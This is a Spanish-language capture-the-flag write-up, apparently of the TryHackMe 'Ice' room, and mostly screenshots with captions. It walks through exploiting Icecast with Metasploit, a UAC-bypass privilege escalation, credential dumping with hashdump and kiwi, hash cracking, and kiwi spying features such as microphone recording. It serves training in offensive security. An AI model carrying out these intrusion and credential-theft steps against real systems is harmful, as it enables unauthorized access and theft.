 # Ice

Está máquina se parece mucho a la anterior(quizá porque lo creó el mismo usuario...), nos lleva muy de la mano y nos deja claro lo que tenemos que hacer. Por eso mismo, lo haré igual que la documentación anterior, responderé a las preguntas con una imágen y una oración.

# Proceso

Empecemos el análisis con un escaneo simple de los puertos:
![alt text](img/image-4.png)
> Encontramos 6 puertos con servicios conocidos.

<br>

La página nos pregunta, ¿cuál es el puerto asociado al servicio Microsoft Remote Desktop (MSRDP)?
![alt text](img/image.png)
> En realidad, en la imágen no se ve el servicio MSRDP. Si -sV no me da la versión, no se como sacarlo.

<br>

Veamos ahora el servicio activo en el puerto 8000:
![alt text](img/image-5.png)
> icecast(un servidor de transmisión de video y audio)

<br>

¿Cuál es el hostname de la máquina objetivo?
![alt text](img/image-2.png)
> Podemos ver el hostname con -A -T4

<br>

Sabiendo el servicio *instalado* en el puerto 8000, podemos buscar información del CVE asociado y de su peligrosidad.
![alt text](img/image-3.png)
> Si le preguntamos a chatGPT, nos dice que está asociado al cve CVE-2004-1561 y la peligrosidad es de 6.4

<br>

Si buscamo el servicio en metasploit, sacamos el siguiente exploit
![alt text](img/image-6.png)
> exploit/windows/http/icecast_header

<br>

Usando ese exploit, y mostrando las opciones, podemos ver cuales son las requeridas por el exploit
![alt text](img/image-7.png)
> Pasa lo mismo que en la máquina anterior, LHOST usa la ip del vmware

<br>

Cambiamos el RHOST y el LHOST por los necesarios, e iniciamos el exploit
![alt text](img/image-9.png)
![alt text](img/image-10.png)
> set RHOST {ip_target} / set LHOST tun0

<br>

Nos fijamos que el nombre de la shell es meterpreter, por lo que podremos usar comandos de linux
![alt text](img/image-11.png)
![alt text](img/image-37.png)

<br>

Vamos a listar los procesos activos y ver que usuario está usando icecast
![alt text](img/image-12.png)
> El proceso de la imágen no es el que pide el enunciado

<br>

Ver la buil del sistema operativo
![alt text](img/image-13.png)

<br>

Y la arquitectura de este
![alt text](img/image-14.png)

<br>

El creador de la room nos recomienda usar el siguiente comando
![alt text](img/image-15.png)
> run post/multi/recon/local_exploit_suggester

<br>

El comando anterior, nos proporcionará varios exploits que podemos usar para escalar privilegios. Para esta room usaremos el de la imágen:
![alt text](img/image-17.png)
> exploit/windows/local/bypassuac_eventvwr

<br>

Ahora que hemos encontrado el exploit para escalar privilegios, enviemos la sesión al background
![alt text](img/image-18.png)

<br>

Usamos el exploit anterior
![alt text](img/image-21.png)

<br>

Configuramos las opciones necesarias
![alt text](img/image-20.png)
> La siguiente respuesta es: "LHOST"

<br>

Y corremos el exploit:
![alt text](img/image-22.png)

<br>

En la nueva shell, podemos usar `getprivs` para ver los privilegios que tenemos
![alt text](img/image-23.png)

<br>

Y listar los procesos con `ps`
![alt text](img/image-24.png)

<br>

Vamos a intentar sacar las contraseñas de los usuarios. Cambiamos nuestro proceso a otro del usuario NT AUTHORITY\SYSTEM
![alt text](img/image-25.png)

<br>

![alt text](img/image-26.png)

<br>

![alt text](img/image-27.png)

<br>

Vamos a utilizar una nueva herramienta `kiwi`, con la que sacaremos los hashes de todos los usuarios de la máquina:
![alt text](img/image-28.png)

<br>

Con este comando, podemos sacar los hashes de los usuarios:
![alt text](img/image-29.png)

<br>

![alt text](img/image-30.png)
> No me funciona creds_all, lo hago con hashdump

<br>

Crackeamos las contraseñas con john the reaper
![alt text](img/image-31.png)

<br>

Por último, vamos a ver algunos comandos de kiwi bastante interesantes:

Ver la pantalla del usuario:
![alt text](img/image-32.png)

<br>

Grabar el micrófono del sistema:
![alt text](img/image-33.png)

<br>

Modificar la MAC de los archivos:
![alt text](img/image-34.png)

<br>

Auntenticarnos donde queramos
![alt text](img/image-35.png)

## USER? No

No sé si al tener root, podemos iniciar sesión con un usuario.

## ROOT? Si
